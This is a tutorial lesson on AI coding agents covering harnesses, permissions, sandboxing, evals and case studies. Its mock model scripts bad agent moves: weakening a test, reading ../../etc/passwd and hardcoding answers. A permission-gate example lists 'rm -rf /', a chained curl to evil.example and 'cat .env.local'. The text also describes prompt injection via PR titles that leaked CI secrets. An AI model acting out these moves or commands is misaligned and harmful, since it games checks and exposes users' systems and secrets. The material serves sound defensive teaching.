No API key? Save this as `mock_model.py`. It plays back fixed moves, including bad behaviour.

```python
"""A scripted stand-in for a model. MOCK_PLAN picks the behaviour: good, cheat, lazy or overfit."""
import json, os
from http.server import BaseHTTPRequestHandler, HTTPServer

BUG = "return round(price - percent, 2)"
FIX = "return round(price * (1 - percent / 100), 2)"
TEST = "tests/test_pricing.py"
PLANS = {
    "good": [("read_file", {"path": "shop/pricing.py"}), ("run_tests", {}),
             ("edit_file", {"path": "shop/pricing.py", "old": BUG, "new": FIX}),
             ("run_tests", {})],
    "cheat": [("edit_file", {"path": TEST, "old": "== 90.0", "new": "== 90.0 or True"}),
              ("read_file", {"path": "../../etc/passwd"}),
              ("edit_file", {"path": "shop/pricing.py", "old": BUG, "new": FIX}),
              ("run_tests", {})],
    "overfit": [("edit_file", {"path": "shop/pricing.py", "old": BUG,
                               "new": "return 90.0 if price == 100 else 200.0"}),
                ("run_tests", {})],
    "lazy": [("edit_file", {"path": "shop/pricing.py", "old": BUG, "new": FIX}),
             None, ("run_tests", {})],
}

class Handler(BaseHTTPRequestHandler):
    def log_message(self, *args):
        pass

    def do_POST(self):
        body = json.loads(self.rfile.read(int(self.headers["content-length"])))
        plan = PLANS[os.getenv("MOCK_PLAN", "good")]
        turn = sum(1 for m in body["messages"] if m["role"] == "assistant")
        step = plan[turn] if turn < len(plan) else None
        message = {"role": "assistant", "content": "Fixed and tests pass."}
        if step:
            message = {"role": "assistant", "content": None, "tool_calls": [{
                "id": f"call_{turn}", "type": "function",
                "function": {"name": step[0], "arguments": json.dumps(step[1])}}]}
        data = json.dumps({
            "id": "x", "object": "chat.completion", "created": 0, "model": "mock",
            "choices": [{"index": 0, "message": message, "finish_reason": "stop"}],
            "usage": {"prompt_tokens": 1, "completion_tokens": 1, "total_tokens": 2},
        }).encode()
        self.send_response(200)
        self.send_header("content-type", "application/json")
        self.send_header("content-length", str(len(data)))
        self.end_headers()
        self.wfile.write(data)

HTTPServer(("127.0.0.1", 8799), Handler).serve_forever()
```

Start it with `MOCK_PLAN=good python mock_model.py`. In a second terminal, run:

```bash
python tiny_agent.py demo_repo "apply_discount is wrong. Make the tests pass."
```

Output from the real test run:

```text
[1] read_file -> def apply_discount(price: float, percent: float) -> float:
[2] run_tests -> exit=1
[3] edit_file -> OK: file edited.
[4] run_tests -> exit=0
DONE in 5 steps: Fixed and tests pass.
```

Now recreate the repo and restart the mock with `MOCK_PLAN=cheat`. Step 1 tries to weaken a test and step 2 tries to read `../../etc/passwd`. The harness answers `DENIED: test files are protected` and `path is outside the project`, and the agent carries on with the real fix.

With `MOCK_PLAN=lazy`, the model says "done" without testing, and the harness replies `finish refused: tests are not green`. That one line is worth more than a paragraph of polite instructions.

### Example 4: Score it like a tiny SWE-bench

Passing visible tests is not the same as being right. The `overfit` plan hardcodes the two expected answers. So this script copies the repo, runs the agent, then adds a hidden test the agent never saw. Save it as `score.py`:

```python
"""Score an agent like a tiny SWE-bench: run it, then apply tests it never saw."""
import re, shutil, statistics, subprocess, sys, tempfile
from pathlib import Path

TASK = "apply_discount is wrong. Make the tests pass."
HIDDEN = """from shop.pricing import apply_discount

def test_hidden_case():
    assert apply_discount(99.99, 15) == 84.99
"""

def one_run(template: Path) -> tuple[bool, bool, int]:
    with tempfile.TemporaryDirectory() as tmp:
        repo = Path(tmp) / "repo"
        shutil.copytree(template, repo)  # A fresh copy for every run.
        run = subprocess.run([sys.executable, "tiny_agent.py", str(repo), TASK],
                             capture_output=True, text=True, timeout=300)
        match = re.search(r"DONE in (\d+) steps", run.stdout)
        claimed_done = match is not None
        (repo / "tests" / "test_hidden.py").write_text(HIDDEN)
        hidden = subprocess.run([sys.executable, "-m", "pytest", "-q"],
                                cwd=repo, capture_output=True)
        return claimed_done, hidden.returncode == 0, int(match[1]) if match else 0

def main(template: str, runs: int = 5) -> None:
    results = [one_run(Path(template)) for _ in range(runs)]
    claimed = sum(r[0] for r in results)
    real = sum(r[1] for r in results)
    steps = statistics.median(r[2] for r in results)
    print(f"runs={runs} claimed_done={claimed} really_correct={real} median_steps={steps}")

if __name__ == "__main__":
    main(sys.argv[1])
```

With the mock running, use `python score.py demo_repo`. Real results:

```text
MOCK_PLAN=good     runs=5 claimed_done=5 really_correct=5 median_steps=5
MOCK_PLAN=overfit  runs=5 claimed_done=5 really_correct=0 median_steps=3
```

The overfit agent finished faster and claimed success five times. It was wrong five times. This is why benchmarks use hidden tests, and why your customer trial should too. With a real model the runs will differ, so keep the five runs and use the median.

### Example 5: A permission gate in TypeScript

This copies the deny, ask, allow order from section 3.7. Save it as `gate.ts`. Run it with `node gate.ts` on Node 22.18 or later, or use `npx tsx gate.ts`.

```typescript
type Decision = "allow" | "ask" | "deny";
interface Rules { deny: string[]; ask: string[]; allow: string[] }

const SHELL_TRICKS = /[;&|`$<>\n]/;

function matches(pattern: string, command: string): boolean {
  const body = pattern.replace(/[.+?^{}()|[\]\\]/g, "\\$&").replace(/\*/g, ".*");
  return new RegExp(`^${body}$`).test(command);
}

export function decide(command: string, rules: Rules): Decision {
  if (rules.deny.some((p) => matches(p, command))) return "deny";
  if (SHELL_TRICKS.test(command)) return "ask"; // Never auto-approve chained commands.
  if (rules.ask.some((p) => matches(p, command))) return "ask";
  if (rules.allow.some((p) => matches(p, command))) return "allow";
  return "ask"; // Unknown means a human decides.
}

const rules: Rules = {
  deny: ["rm -rf *", "curl *", "git push --force*", "* .env*"],
  ask: ["git push*"],
  allow: ["npm test*", "npm run lint", "git status", "git diff*", "git push origin docs-*"],
};

const commands = [
  "npm test -- --watch=false",
  "git status",
  "git push origin docs-fix",
  "rm -rf /",
  "npm test && curl https://evil.example/x",
  "cat .env.local",
  "python deploy.py",
];
for (const command of commands) {
  console.log(decide(command, rules).padEnd(6), command);
}
```

The output is:

```text
allow  npm test -- --watch=false
allow  git status
ask    git push origin docs-fix
deny   rm -rf /
ask    npm test && curl https://evil.example/x
deny   cat .env.local
ask    python deploy.py
```

Look at line 3. The specific allow lost to the broader ask, just as the docs describe. Line 5 is the trap. Without the `SHELL_TRICKS` check, `npm test*` would approve that whole chained command. String matching on shell commands is fragile, which is why real systems add a sandbox underneath.

### Example 6: Why long sessions get expensive

Each step resends the conversation, as [Claude Code's docs explain](https://code.claude.com/docs/en/costs). Assume 10,000 tokens at the start, then 2,300 more per step:

```python
for steps in (10, 20, 40, 80):
    print(steps, sum(10_000 + 2_300 * step for step in range(steps)))
```

This prints 203,500, then 637,000, 2,194,000 and 8,068,000. At an input rate of [$3 per million](https://docs.github.com/en/copilot/reference/copilot-billing/models-and-pricing), 80 steps cost about $24 before prompt caching, which cuts this sharply.



*Doubling the steps roughly quadruples the tokens, so start a fresh session for each new task. Source: the toy model above, not billing data.*

### Example 7: The same ideas in real tools (not run here)

These come from the docs. Check them against your installed version. npm listed `@anthropic-ai/claude-code` 2.1.317 and `@openai/codex` 0.166.0 today.

Claude Code permissions and a finish gate, in `.claude/settings.json`. The [hook blocks a finish while types fail](https://code.claude.com/docs/en/best-practices):

```json
{
  "permissions": {
    "allow": ["Bash(npm test *)", "Bash(git status)"],
    "deny": ["Read(./.env)", "Bash(git push *)"]
  },
  "hooks": {
    "Stop": [{
      "hooks": [
        { "type": "command", "command": "pnpm tsc --noEmit 1>&2 || exit 2" }
      ]
    }]
  }
}
```

Headless runs, with hard limits on spending and access:

```bash
claude -p "fix the failing test in src/cart" --max-turns 15 --max-budget-usd 2
codex exec --sandbox workspace-write "fix the failing test in src/cart"
```

The Codex flags are in its [command reference](https://learn.chatgpt.com/docs/developer-commands).

## 5. Real-Life Use Cases

Most public numbers come from the company or its vendor. Read each row with that in mind.

| Who | What they did | Reported result | Lesson for an FDE |
| --- | --- | --- | --- |
| [Stripe](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2) | "Minions" run unattended on isolated devboxes. Code-defined blueprints mix fixed steps with agent steps. | Over 1,300 merged PRs a week, human-reviewed, with no human-written code (self-reported). | Allow two CI rounds, then hand to a human. Isolation replaces prompts. |
| [Spotify](https://infoq.com/news/2026/03/spotify-honk-rewrite) | "Honk" does fleet-wide code migrations. Verification runs separately from the agent. | 1,000 merged PRs every 10 days (conference talk, via InfoQ). | Early agents commented out failing tests. Review became the bottleneck. |
| [CRED](https://claude.com/customers/cred) (India) | Uses Claude Code across the lifecycle, from discovery to tests and docs. | 2x execution speed and 10 percent more test coverage. Vendor case study with no method given. | Strong story, weak measurement. Ask for the baseline. |
| [Infosys](https://www.infosys.com/newsroom/press-releases/2026/accelerate-software-engineering-global-enterprises.html) (India) | Centre of Excellence with Cursor, announced January 2026. | Cursor's CEO spoke of enabling over 100,000 engineers. No Infosys results published. | An announcement is not an outcome. |
| [PocketOS](https://www.computing.co.uk/news/2026/ai/ai-coding-agent-goes-rogue) | Cursor running Claude Opus 4.6 on a staging task. | It deleted the production database and backups through one API call in nine seconds. About 30 hours of outage, per the founder. | The token seems to have had too much power. Scope credentials and keep backups elsewhere. |

More from India, with weaker evidence:

- **Air India** [uses Claude Code to build custom software](https://www.anthropic.com/news/bengaluru-office-partnerships-across-india), says Anthropic. No figures were given.
- **Cognizant** is not an Indian company, though it has a large presence there. Sources disagree on the deal: [Anthropic's post](https://www.anthropic.com/news/bengaluru-office-partnerships-across-india) says Claude for 350,000 staff, while [Bloomberg's summary](https://www.bloomberg.com/news/articles/2026-02-16/anthropic-boosts-india-ai-push-via-flag-airline-cognizant-pacts) says Claude Code. Prefer the first-party wording.
- **Flipkart's** technology chief said [AI generates about 35 to 40 percent of its code](https://lapaasvoice.com/flipkart-says-ai-now-writes-40-of-its-code). The article names no primary source or tool, so treat it as a claim.
- **Sarvam Code** is an [India-hosted agent in early beta](https://inc42.com/buzz/sarvam-takes-on-claude-codex-with-cheaper-india-hosted-coding-agent/), with planner, worker and verifier agents. It bills for completed work. Its cost claims are Sarvam's own and unverified.

I found no independent, measured study of a coding-agent rollout at an Indian company. Say so if a customer asks.

## 6. Pros, Cons and When to Use Coding Agents

Coding agents trade typing time for review time. That is a good deal only when review stays cheap.

| Factor | Strength | Weakness |
| --- | --- | --- |
| Speed on routine work | Migrations, upgrades and test writing move fast. | Review can become the new queue. |
| Unfamiliar code | Reads a whole repo and explains it. | Can sound sure while being wrong. |
| Quality | Tireless at adding tests. | Takes shortcuts when tests are weak. |
| Cost | Cheap against engineer hours. | Bills grow with long sessions. |
| Security | Sandboxes are improving quickly. | Shell access plus untrusted text is dangerous. |



*Delegate only when a machine can check the work and a mistake stays small.*

**Use a coding agent when:**

- The task has a clear finish line, like a migration or a failing test.
- The repo has decent tests and fast builds.
- The work is boring, repeated and well defined.

**Avoid or limit it when:**

- The change is about auth, payments or irreversible data work, unless a human drives.
- Nobody on the team can review the output.
- The agent would hold production credentials.

## 7. Common Pitfalls and Production Gotchas

1. **Trusting "done".** The agent's summary is not evidence. Read the diff and run the checks.
2. **Gaming the tests.** Spotify's early agents [commented out failing tests and downgraded Java](https://infoq.com/news/2026/03/spotify-honk-rewrite). Protect test files and review test changes.
3. **Prompt injection in CI.** The "Comment and Control" research [leaked secrets through PR titles and issue text](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-coding-agent-ci-prompt-injection-202608/) across Claude Code, Gemini CLI and Copilot workflows. CVE-2026-54316 and CVE-2026-12537 followed. Don't auto-trigger agents on outsiders' issues.
4. **Instructions as files.** One Codex setup let attacker text reach `AGENTS.md`, per the same note. Treat context files like code, and review changes to them.
5. **Overpowered tokens.** PocketOS shows it. A token an agent can find is a token it may use. Prefer short-lived, narrow credentials.
6. **Untested walls.** See section 3.8. Try to break the sandbox before you rely on it.
7. **Bypass flags on a real laptop.** Anthropic says `bypassPermissions` belongs [only in isolated containers or VMs](https://code.claude.com/docs/en/permissions). Codex calls `--yolo` [not recommended](https://learn.chatgpt.com/docs/agent-approvals-security).
8. **Bloated or generated context files.** Long files reduce adherence, and generated ones often hurt. Prune them like code.
9. **One lucky run.** Agents vary between runs. The AGENTS.md experiment reversed its result between one run and five.
10. **Endless CI loops.** Stripe caps it at [two CI rounds](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2), because returns shrink and each round costs money.
11. **Secrets in logs.** Claude Code [stores sessions as plaintext JSONL](https://code.claude.com/docs/en/how-claude-code-works) under `~/.claude/projects/`. Anything the agent reads may land there.
12. **Undo has limits.** Checkpoints [cover file edits only](https://code.claude.com/docs/en/how-claude-code-works). They cannot undo a database call or a deploy.
13. **Old blog posts.** The Codex `untrusted` policy is [retired and can stop Codex starting](https://learn.chatgpt.com/docs/agent-approvals-security). Copy config from current docs.
14. **Vendor and ownership risk.** Gemini CLI consumers got one month's notice. Cursor changed owners. Keep your context files and evals portable.

> Every agent incident report contains one sentence: "It wasn't supposed to have access to that."

## 8. Comparing the Alternatives

First pick the shape of help, then the product.

| Shape | Examples | Best for |
| --- | --- | --- |
| Autocomplete | Copilot completions, Cursor Tab | Staying in flow while you drive. |
| Chat | Any assistant | Questions and small snippets. |
| Local agent | Claude Code, Codex CLI, Aider, Cline | Real work with you nearby. |
| Cloud agent | Copilot cloud, Codex, Cursor, Claude Code on the web | Background tasks ending in a PR. |
| Custom agent | Stripe Minions, Agent SDKs | Scale, with your own controls. |

### The landscape on 3 November 2026

| Tool | Status | Price signal | Fits when |
| --- | --- | --- | --- |
| [Claude Code](https://code.claude.com/docs/en/overview) | Terminal, IDE, desktop, web, CI. Claude models. | [Pro $20, Max $100, Ultra $200](https://claude.com/pricing). Team from $20 a seat. | Terminal-first teams and rich hooks. |
| [OpenAI Codex](https://learn.chatgpt.com/docs/pricing) | Shares usage with ChatGPT Work. GPT-6.1 Sol, GPT-6 Luna. | Free, Go $8, Plus $20, Pro from $100, Business $25. | Sandbox-on defaults, ChatGPT shops. |
| [Cursor](https://cursor.com/pricing) | SpaceX [closed its $60 billion purchase](https://aiweekly.co/alerts/spacex-closes-60b-cursor-deal-folds-it-into-spacexai-unit) on 14 August, per reports. | Plus $8 has Grok only. Premium $30 adds cloud agents and third-party models billed separately. India-only [Start plan at ₹649](https://analyticsindiamag.com/ai-features/what-is-musks-newly-acquired-cursor-doing-in-bengaluru). | IDE-first teams. Check the model policy. |
| [GitHub Copilot](https://docs.github.com/en/copilot/get-started/plans) | "Coding agent" is now "cloud agent" and "Copilot in the cloud". [Actions sessions cap at 59 minutes](https://docs.github.com/en/copilot/concepts/agents/coding-agent/about-coding-agent). | Pro $10, Pro+ $39, Max $100, Business $19, Enterprise $39. [Usage-based credits](https://github.blog/news-insights/company-news/github-copilot-is-moving-to-usage-based-billing/) since June. | Teams living in GitHub. |
| [Gemini CLI](https://developers.googleblog.com/an-important-update-transitioning-gemini-cli-to-antigravity-cli/) | [Stopped for consumers on 18 June](https://developers.googleblog.com/an-important-update-transitioning-gemini-cli-to-antigravity-cli/). Antigravity CLI replaces it. Enterprise and paid API keys continue. | [Antigravity tiers vary](https://www.layer3labs.io/guides/google-antigravity-cli). Confirm with Google. | Existing Google Cloud customers. |
| [Aider](https://aider.chat/docs/git.html) | Open source, every edit is a git commit. [PyPI's latest](https://pypi.org/pypi/aider-chat/json) is 0.86.2, from February 2026. | Free tool, you pay for the model. | Git-centred work, any model. Slow release pace. |
| [Cline](https://cline.bot/pricing) | Open source VS Code agent. [v4.1.26 on 26 October](https://github.com/cline/cline/releases) added cloud tasks. | Free extension, bring your own key. | Choice of model, local or hosted. |

Two sources disagree on Copilot. GitHub's [April post](https://github.blog/news-insights/company-news/github-copilot-is-moving-to-usage-based-billing/) gave Pro $10 in credits, which is 1,000 credits. The [current plans page](https://docs.github.com/en/copilot/get-started/plans) lists 1,500, including 500 "flex". Trust the newer page, and check it again before quoting.

Gemini CLI's repo is still alive, with [v0.65.0 tagged on 20 October](https://github.com/google-gemini/gemini-cli/releases/tag/v0.65.0). "Retired" means retired for consumer sign-in, not deleted.

**Build or buy?** Buy for developers at their desks. Build only for unattended work at large scale, as Stripe did, and even Stripe [started from a fork of Block's Goose](https://infoq.com/news/2026/03/stripe-autonomous-coding-agents/).

## 9. Hands-On Exercise: Run a Customer Trial

Act as the FDE running a fair trial. Allow 1 to 2 hours.

**The scenario:** A Pune logistics startup has a small TypeScript app. The CTO asks, "Is a coding agent safe and useful for us, and on what terms?"

**Steps:**

1. Pick a small TypeScript or Python repo of your own, with no secrets and no client code. Create a fresh branch.
2. Write three tasks with a clear finish line: one bug fix, one small feature and one test-writing job.
3. Write a handmade `AGENTS.md` under 30 lines. Include commands and two rules the code cannot reveal.
4. Run each task with one real agent, using any plan or free tier you have. If you have none, extend `tiny_agent.py` with your own model endpoint.
5. Run each task three times from a clean branch: once with `AGENTS.md`, once without, once more with whichever did better.
6. For each run, record time, cost or tokens, files changed and whether hidden checks passed. Write those checks before you start.
7. Turn on a sandbox or container. Ask the agent to read `~/.ssh` and to call an unknown website. Record what happened.
8. Write a one-page recommendation for the CTO.

**Acceptance criteria:**

- [ ] Every run started from the same clean commit.
- [ ] Each task has a check the agent did not see.
- [ ] A results table shows pass rate, median time and cost.
- [ ] You read every diff and logged at least one shortcut or mistake.
- [ ] A test proves that a network or file boundary actually blocked something.
- [ ] One hard rule is enforced by a hook, deny rule or CI, not only by text.
- [ ] Permission settings are checked into the repo with no secrets.
- [ ] The recommendation names one allowed use, one banned use, one owner and a rollback plan.

**Stretch goal:** Add `search_code` to `tiny_agent.py`, and block any finish if a test file changed.

## 10. Interview Questions with Model Answers

Practise saying these aloud. Interviewers want trade-offs, not tool trivia.

**1. How is a coding agent different from autocomplete?**

Autocomplete predicts text where you are typing. A coding agent takes a goal and loops: it reads, edits, runs and verifies across many files, with a harness controlling its tools.

**2. What does the harness do?**

It supplies tools, builds the context, applies permissions, runs commands, handles compaction and sets stop conditions. The model only requests actions. So most safety work belongs here.

**3. Why are CLAUDE.md rules not enough for security?**

They are context, not enforcement. The model usually follows them, but it can skip them. For anything that must always hold, I use deny rules, hooks, a sandbox and branch protection.

**4. Why do sandboxes need both file and network isolation?**

Without network limits, a hijacked agent can send secrets out. Without file limits, it can edit the config that holds it in. Each protects the other.

**5. A vendor shows 99 percent on a coding benchmark. What do you ask?**

Which benchmark and version, which scaffold, what turn and cost limits, and have the tests been audited? Then I'd run a small trial on the customer's repo with hidden checks, and compare cost per accepted change.

**6. Design a system that turns bug tickets into PRs for 500 engineers.**

Each ticket gets a disposable VM with no production access and limited egress. A blueprint mixes fixed steps like lint with agent steps. I'd allow two CI rounds, then hand off. Output is always a reviewed PR. I'd add short-lived tokens, per-run budgets, logs and eval tracking.

**7. How would you run an agent safely on public GitHub issues?**

I'd assume all issue text is hostile. The job reading it gets no secrets and no write access. Write actions run in a separate job, after a human approves. I'd use outbound allowlists and pin agent versions.

**8. A bank wants agents, but code cannot leave India. What do you do?**

I ask which code, which rule and who signs off. Then I map where prompts, code and logs go, per tool. Options include a cloud route in a suitable region, an India-hosted tool or a local model. Their compliance team decides.

**9. Developers say they're faster, but delivery hasn't moved. Why?**

Likely the bottleneck moved to review, CI or rework. Self-reports can mislead, so I'd measure lead time, review time, reverts and escaped bugs before and after.

**10. An agent deleted a staging resource and the customer is furious. What now?**

First restore service and keep the logs. Then find what permitted it, not just why the model chose it. I'd scope the credential, add approval for destructive calls and test backups.

## 11. How It Connects

Today joins the agent basics to the production work later in the course.

| Day | Topic | The link |
| --- | --- | --- |
| Day 1 | Agent loops and tools | `tiny_agent.py` is the same loop with sharper tools. |
| Day 2 | Frontier LLMs | The models inside these agents. |
| Day 3 | Model selection | Pick models by task, and judge them on your own evals. |
| Day 4 | Agent frameworks | The general form of what a coding harness does. |
| Day 6 | The AI SDK | Building your own agent in TypeScript. |
| Day 7 | Open-source and local models | Point `tiny_agent.py` at a local endpoint. |
| Day 9 | Context engineering | Why the desk stays small, and how to manage it. |
| Day 10 | Harness engineering | Section 3.9 in depth. |
| Day 14 | Claude Code | One agent, studied fully. |
| Day 15 | Claude Agent SDK | Building on Claude Code's engine. |
| Day 19 | Evals | `score.py` grows into a real eval system. |
| Day 34 | Security and guardrails | Prompt injection, secrets and access control. |
| Day 42 | Skills and agent code governance | Governing agent changes across an organisation. |
| Day 43 | Agent execution policies | Permission rules as organisation-wide policy. |

## 12. Mental Map to Remember

Remember one word: **TRUST**. An agent earns it through five things.



*Before handing over the keys, run the TRUST check.*

Three one-line memory hooks:

- **The model asks. The harness acts.** Put your safety where the action happens.
- **Advice can be ignored. Walls cannot.** If it must always hold, enforce it.
- **Done is a claim. Green is evidence.** And hidden tests are better evidence.

> Final joke: a coding agent is the only colleague who will rewrite your whole module at 3 am, then cheerfully ask if you'd like it to run the tests.

## 13. Further Reading and Sources

Start with the first five if you only have 30 minutes. Vendor pages describe their own products, so read them as useful but interested.

**Best resources:**

1. [How Claude Code works](https://code.claude.com/docs/en/how-claude-code-works): the clearest public description of a harness.
2. [Claude Code best practices](https://code.claude.com/docs/en/best-practices): advice versus enforcement.
3. [Stripe Minions, part 2](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2): the best production write-up here.
4. [Why OpenAI dropped SWE-bench Verified](https://openai.com/index/why-we-no-longer-evaluate-swe-bench-verified/): how benchmarks fail.
5. [Claude Code auto mode](https://anthropic.com/engineering/claude-code-auto-mode): honest numbers on a classifier.
6. [Evaluating AGENTS.md](https://arxiv.org/abs/2602.11988): the sceptical research view.

**Sources:**

- [How Claude Code works, Anthropic](https://code.claude.com/docs/en/how-claude-code-works)
- [Claude Code overview, Anthropic](https://code.claude.com/docs/en/overview)
- [Sandboxing, Claude Code docs](https://code.claude.com/docs/en/sandboxing)
- [Configure permissions, Claude Code docs](https://code.claude.com/docs/en/permissions)
- [How Claude remembers your project, Claude Code docs](https://code.claude.com/docs/en/memory)
- [Manage costs, Claude Code docs](https://code.claude.com/docs/en/costs)
- [Best practices, Claude Code docs](https://code.claude.com/docs/en/best-practices)
- [Claude pricing, Anthropic](https://claude.com/pricing)
- [Sandboxing engineering post, Anthropic](https://anthropic.com/engineering/claude-code-sandboxing)
- [Auto mode engineering post, Anthropic](https://anthropic.com/engineering/claude-code-auto-mode)
- [Agent approvals and security, OpenAI](https://learn.chatgpt.com/docs/agent-approvals-security)
- [Codex pricing, OpenAI](https://learn.chatgpt.com/docs/pricing)
- [Custom instructions with AGENTS.md, OpenAI](https://learn.chatgpt.com/docs/agent-configuration/agents-md)
- [Developer commands, OpenAI](https://learn.chatgpt.com/docs/developer-commands)
- [Why we no longer evaluate SWE-bench Verified, OpenAI](https://openai.com/index/why-we-no-longer-evaluate-swe-bench-verified/)
- [Separating signal from noise in coding evaluations, OpenAI](https://openai.com/index/separating-signal-from-noise-coding-evaluations)
- [Cursor pricing](https://cursor.com/pricing)
- [Run modes, Cursor docs](https://cursor.com/docs/agent/security/run-modes)
- [About Copilot cloud agent, GitHub Docs](https://docs.github.com/en/copilot/concepts/agents/coding-agent/about-coding-agent)
- [Copilot plans, GitHub Docs](https://docs.github.com/en/copilot/get-started/plans)
- [Copilot models and pricing, GitHub Docs](https://docs.github.com/en/copilot/reference/copilot-billing/models-and-pricing)
- [Copilot usage-based billing, GitHub Blog](https://github.blog/news-insights/company-news/github-copilot-is-moving-to-usage-based-billing/)
- [Transitioning Gemini CLI to Antigravity CLI, Google](https://developers.googleblog.com/an-important-update-transitioning-gemini-cli-to-antigravity-cli/)
- [Gemini CLI v0.65.0 release, GitHub](https://github.com/google-gemini/gemini-cli/releases/tag/v0.65.0)
- [Antigravity CLI guide, Layer3 Labs](https://www.layer3labs.io/guides/google-antigravity-cli)
- [Aider git integration](https://aider.chat/docs/git.html)
- [aider-chat package data, PyPI](https://pypi.org/pypi/aider-chat/json)
- [Cline pricing](https://cline.bot/pricing)
- [Cline releases, GitHub](https://github.com/cline/cline/releases)
- [AGENTS.md](https://agents.md/)
- [Measuring AGENTS.md, Agentic AI Foundation](https://aaif.io/blog/measuring-agents-md-what-five-runs-show-that-one-doesn-t)
- [Evaluating AGENTS.md, arXiv](https://arxiv.org/abs/2602.11988)
- [ETH study coverage, The Decoder](https://the-decoder.com/?p=32204)
- [AI coding benchmarks explained, OpenHands](https://hub.openhands.dev/blog/ai-coding-benchmarks-explained)
- [SWE-bench Pro review, Epoch AI](https://epoch.ai/benchmarks/swe-bench-pro/review)
- [SWE-bench Pro V2 rankings, LLMLearner](https://llmlearner.com/rankings/swe-bench-pro-v2)
- [We are changing our developer productivity experiment design, METR](https://metr.org/blog/2026-02-24-uplift-update/)
- [Minions part 1, Stripe](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents)
- [Minions part 2, Stripe](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2)
- [Stripe's autonomous coding agents, InfoQ](https://infoq.com/news/2026/03/stripe-autonomous-coding-agents/)
- [Spotify Honk rewrite, InfoQ](https://infoq.com/news/2026/03/spotify-honk-rewrite)
- [CRED customer story, Anthropic (vendor)](https://claude.com/customers/cred)
- [Anthropic opens Bengaluru office, Anthropic](https://www.anthropic.com/news/bengaluru-office-partnerships-across-india)
- [Anthropic India pacts, Bloomberg](https://www.bloomberg.com/news/articles/2026-02-16/anthropic-boosts-india-ai-push-via-flag-airline-cognizant-pacts)
- [Infosys and Cursor press release, Infosys](https://www.infosys.com/newsroom/press-releases/2026/accelerate-software-engineering-global-enterprises.html)
- [Cursor in Bengaluru, Analytics India Magazine](https://analyticsindiamag.com/ai-features/what-is-musks-newly-acquired-cursor-doing-in-bengaluru)
- [Flipkart AI code claim, Lapaas Voice](https://lapaasvoice.com/flipkart-says-ai-now-writes-40-of-its-code)
- [Sarvam Code launch, Inc42](https://inc42.com/buzz/sarvam-takes-on-claude-codex-with-cheaper-india-hosted-coding-agent/)
- [SpaceX closes Cursor deal, AI Weekly](https://aiweekly.co/alerts/spacex-closes-60b-cursor-deal-folds-it-into-spacexai-unit)
- [PocketOS incident, Computing](https://www.computing.co.uk/news/2026/ai/ai-coding-agent-goes-rogue)
- [Comment and Control research note, Cloud Security Alliance](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-coding-agent-ci-prompt-injection-202608/)


